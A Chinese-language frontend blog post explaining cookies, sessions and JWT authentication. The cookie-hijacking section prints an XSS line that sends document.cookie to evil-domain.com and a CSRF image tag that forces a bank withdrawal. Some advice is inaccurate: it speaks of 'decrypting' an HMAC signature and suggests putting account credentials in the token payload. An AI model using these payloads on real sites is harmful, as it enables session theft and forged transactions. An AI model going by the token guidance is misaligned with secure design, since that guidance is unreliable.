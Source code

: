 ```yaml
---
layout: post
title: Cookie 、 Session 和 Token
date: 2019-03-07
categories: 前端
tags:
  - 前端
  - 网络安全
---
```


`Cookie` 、 `Session` 和 `Token`

最后更新日期 2019-05-17

<!-- more -->

## 前端安全需要注意哪几方面问题

`XSS`（跨域脚本）、`CSRF`（跨站请求伪造攻击）、`arp`、`xff`、中间人攻击、运营商劫持、防暴刷

## Cookie 、 Session 和 Token

简介：

- `cookie` 服务员看你的身份证，给你一个编号，以后，进行任何操作，都出示编号后服务员去看查你是谁。
- `token` 直接给服务员看自己身份证

> 参考文章：
>
> - [cookie 和 token](https://www.jianshu.com/p/ce9802589143)
> - [MDN](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies)

### Cookie

`HTTP Cookie`（也叫 `Web Cookie` 或浏览器 `Cookie`）是服务器发送到用户浏览器并保存在本地的一小块数据，它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上。通常，它用于告知服务端两个请求是否来自同一浏览器，如保持用户的登录状态。`Cookie` 使基于无状态的 `HTTP` 协议记录稳定的状态信息成为了可能。

Cookie 主要用于以下三个方面：

- 会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）
- 个性化设置（如用户自定义设置、主题等）
- 浏览器行为跟踪（如跟踪分析用户行为等）

#### cookie 的创建

服务器收到 `HTTP` 请求时，服务器可以在响应头里面添加一个 `Set-Cookie` 选项。浏览器收到响应后通常会保存下 `Cookie`，之后对该服务器每一次请求中都通过 `Cookie` 请求头部将 `Cookie` 信息发送给服务器。
服务端：

```js
  Set-Cookie: <cookie名>=<cookie值>
```

浏览器：(请求头部中加入)

```js
Cookie: <cookie名>=<cookie值>
```

#### JS 中获取 Cookie

通过 `Document.cookie` 属性可创建和访问的 `Cookie`，但是无法访问带有 `HttpOnly` 标记的 `Cookie`（缓解 `XSS` 攻击）

#### cookie 劫持

[MDN-cookie 安全](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies#%E5%AE%89%E5%85%A8)

1. 攻击者通过 `xss` 拿到用户的 `cookie` 然后就可以伪造 `cookie` 了。

   ```js
   new Image().src =
     'http://www.evil-domain.com/steal-cookie.php?cookie=' + document.cookie
   ```

2. 或者通过 `csrf` 在同个浏览器下面通过浏览器会自动带上 `cookie` 的特性在通过用户网站-攻击者网站-攻击者请求用户网站的方式浏览器会自动带上 `cookie`

```html
<img
  src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory"
/>
```

<!-- ## Cookie 与 Cookie 劫持

[Cookie 与 Cookie 劫持](https://g2ex.github.io/2015/06/29/Cookie-and-Cookie-Injection/) -->

## HTTP Session

`session` 本身是一个抽象的概念，为了实现中断和继续等操作，将 `user agent` 和 `server` 之间一对一的交互，抽象为“会话”，进而衍生出“会话状态”，也就是 `session` 的概念。`Session` 对象存储特定用户会话所需的属性及配置信息，维持一个会话的核心就是客户端的唯一标识，即 `session id`，通常又存储在 `cookie` 中。

## cookie 和 session 有什么区别

- `session` 在服务器端（较安全），`cookie` 在客户端， `session` 默认被存在在服务器的一个文件里（不是内存）
- 储存大小和方式：
  - `cookie`: 不超过 4K，只能保存 `ASCII`
  - `session`: 存储数据远高于 `cookie`, 可保存一些常用变量信息
- 有效期： `cookie` 有效时间长， `session` 一般客户端关闭就失效

## cookie 和 session 的联系

参考： [cookie 和 session](https://juejin.im/post/5cd9037ee51d456e5c5babca#heading-2)

登陆流程： `SessionID` 是连接 `Cookie` 和 `Session` 的一道桥梁，大部分系统也是根据此原理来验证用户登录状态。

特殊情况：

- 浏览器禁止了 `cookie`
  > 解决方法： 请求的时候采用 `post` 请求提交， 或者在地址后面拼上 `SessionID`
- 使用 `Token` 解决

## `token` 加密和登陆验证

> `JWT（JSON Web Tokens）` 用户发送登陆信息至服务器，服务器认证后，生成一个 `JSON` 对象，返回给用户，服务器完全只靠这个对象认定用户身份。为了防止用户篡改数据，服务器在生成这个对象的时候，会加上签名。
> 缺点：由于服务器不保存 `session` 状态，因此无法在使用过程中废止某个 `token`，或者更改 `token` 的权限。也就是说，一旦 `JWT` 签发了，在到期之前就会始终有效。（设置较短的有效期）

- `token`是无状态的，后端服务不需要记录 `token`。每个令牌都是独立的。
- 服务器不记录哪些用户已登陆或者已经发布了哪些 `JWT`。对服务器的每个请求都需要带上验证请求的签名`token`，都要在`HTTP header`中 `Authorization` 字段里，携带服务器返回的 `JSON`
- 服务器对 `JWT` 进行解码，如果 `token` 有效，则处理该请求
- `token` 是放在 `jwtJSON Web Tokens(jwt)`里面下发给客户端的而且不一定存储在哪里（可以存在 `localStorage` `sessionStorage`，或者 `cookie` 中） 不能通过 `document.cookie` 直接拿到，通过 `jwt+ip` 的方式可以防止 被劫持即使被劫持也是无效的 `jwt`
- 也可以储存在 `Cookie` 里面，在请求的时候自动发送，但是不能跨域

```js
// Request Headers 请求中
Authorization: `Bearer ${token}`
```

** JWT 数据格式 **

`Header.Payload.Signature`

> 示例：eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6NjksInVzZXJuYW1lIjoiXHU1OTI3XHU2Y2IzXHU1NDExXHU0ZTFjXHU2ZDQxIiwicGhvbmUiOiIxMzYyMTg3OTc4NCIsImV4cCI6MTU2MTcwNzYwM30.G77w5AMqu1PbT6YL3P1xYHBhUD16rRYvUwa89Nhkvtw
> 需要使用 `Base64` 转为 字符串

- Header (头部)
- Payload (负载)
- Signature (签名)

### Header

JSON 对象

```js
{
 "alg": "HS256", // 签名所用的算法，默认 `HMAC SHA256（HS256)`
 "typ": "JWT" //token 类型
}
```

### Payload

JSON 对象

```js
  {
    "iss": "签发人",
    "exp": "过期时间",
    "nbf": "生效时间",
    "iat": "签发时间",
    "jti": "编号"
  }
```

### Signature

对 `Header` 和 `Payload` 的签名，防止被篡改， 一般是加上一个唯一的字符串，来防止 `token` 被伪造篡改

简单的使用方法：

- 需要一个 `secret`（随机数）
- 后端利用 `secret` 和加密算法(如：HMAC-SHA256)对 `payload`(如账号密码)生成一个字符串(`token`)，返回给前端
- 前端每次 `request` 在 `header` 中带上登陆返回的 `token`
- 后端用同样的算法解密

